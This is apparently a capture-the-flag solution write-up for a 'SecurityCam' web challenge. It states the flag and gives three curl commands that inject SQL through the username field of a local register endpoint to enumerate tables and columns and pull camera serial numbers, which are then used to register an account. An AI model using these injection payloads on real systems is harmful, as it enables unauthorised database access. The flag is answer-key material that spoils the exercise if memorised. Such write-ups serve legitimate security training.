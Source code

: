 # SecurityCam #
SecurityCam is a website where users can login to remotely view their camera feeds.
After logging in it serves a video which contains the flag.

## Solution ##

The flag (MCA{oM0kcuLkPk}) can be found in the video.  The video can be accessed by logging in to the website.
Table name can be found by running 
`curl --data "usr=';  SELECT table_name from information_schema.tables -- " localhost/register`
Column names can be found by running 
`curl --data "usr=';  select column_name from information_schema.columns where table_name='cameras'  -- " localhost/register`
Serial number can be found by running
`curl --data "usr='; select serial from cameras where 1=1 -- " localhost/register`
Then register a new account (all that is really needed is something for a username and the serial number from the database).
Successful registration shows the video that contains the flag.